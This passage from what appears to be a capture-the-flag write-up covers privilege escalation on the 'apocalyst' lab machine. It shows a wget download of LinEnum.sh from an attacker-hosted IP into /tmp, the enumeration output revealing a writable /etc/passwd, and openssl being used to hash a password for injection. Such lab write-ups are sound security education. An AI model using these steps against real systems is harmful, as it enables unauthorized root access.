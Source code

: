 
    www-data@apocalyst:/tmp$ wget http://10.10.14.122:8080/LinEnum.sh
    wget http://10.10.14.122:8080/LinEnum.sh
     — 2017–11–23 23:53:22 —  http://10.10.14.122:8080/LinEnum.sh
    Connecting to 10.10.14.122:8080… connected.
    HTTP request sent, awaiting response… 200 OK
    Length: 43283 (42K) [text/x-sh]
    Saving to: ‘LinEnum.sh’
    LinEnum.sh 100%[===================>] 42.27K 169KB/s in 0.2s
    2017–11–23 23:53:23 (169 KB/s) — ‘LinEnum.sh’ saved [43283/43283]
    www-data@apocalyst:/tmp$ ls -la
    ls -la
    total 152
    drwxrwxrwt 10 root root 4096 Nov 23 23:53 .
    drwxr-xr-x 23 root root 4096 Jul 26 12:37 ..
    drwxrwxrwt 2 root root 4096 Nov 23 16:26 .ICE-unix
    drwxrwxrwt 2 root root 4096 Nov 23 16:26 .Test-unix
    drwxrwxrwt 2 root root 4096 Nov 23 16:26 .X11-unix
    drwxrwxrwt 2 root root 4096 Nov 23 16:26 .XIM-unix
    drwxrwxrwt 2 root root 4096 Nov 23 16:26 .font-unix
    -rwxr-xr-x 1 www-data www-data 1879 Nov 23 19:49 ItyhsHrJBV
    -rw-rw-rw- 1 www-data www-data 43283 Nov 23 23:52 LinEnum.sh
    -rwxr-xr-x 1 www-data www-data 1879 Nov 23 19:48 TxFbxalONx
    -rwxr-xr-x 1 www-data www-data 207 Nov 23 19:49 czDNtfLuLg
    -rwxr-xr-x 1 www-data www-data 1879 Nov 23 19:48 gAaiSQXKTW
    -rwxr-xr-x 1 www-data www-data 43052 Nov 23 19:08 linux-exploit-suggester.sh
    -rwxr-xr-x 1 www-data www-data 207 Nov 23 19:48 ljSBJYhPoF
    drwx — — — 3 root root 4096 Nov 23 16:26 systemd-private-545318da7c6e44889bdb503e2414bea4-systemd-timesyncd.service-846O18
    drwxrwxr-x 2 falaraki falaraki 4096 Nov 23 23:52 tmp
    drwx — — — 2 root root 4096 Nov 23 16:26 vmware-root
    -rwxr-xr-x 1 www-data www-data 207 Nov 23 19:48 wsbBhpkLkI

I gave it execute permissions and I ran the script. We get a bunch of output that I’m not going to paste here because it will make my writeup extremely long, but I found something interesting we can write to /etc/passwd.


    Can we read/write sensitive files:
    -rw-rw-r — 1 root root 1637 Nov 23 23:46 /etc/passwd
    -rw-r — r — 1 root root 830 Jul 27 12:06 /etc/group
    -rw-r — r — 1 root root 575 Oct 22 2015 /etc/profile
    -rw-r — — — 1 root shadow 1070 Jul 26 13:41 /etc/shadow
> -rw- is the permission of the owner of the file which is root
> -rw- is the permission that the group has over the file
> -r — is the permissions that all the other users have over the file

I used openssl to generate a password the password was `HackedByKatz`


![](https://cdn-images-1.medium.com/max/800/1*9M0TuGjR49BkXKg6CxIJjQ.png)


The purpose of the openssl passwd command is to feed your password through a one-way hashing algorithm (`-1` outputs MD5). What that gets you is a string that's derived from your password cryptographically, but cannot be used to find your password on its own if an attacker gets their hands on the hashed version.
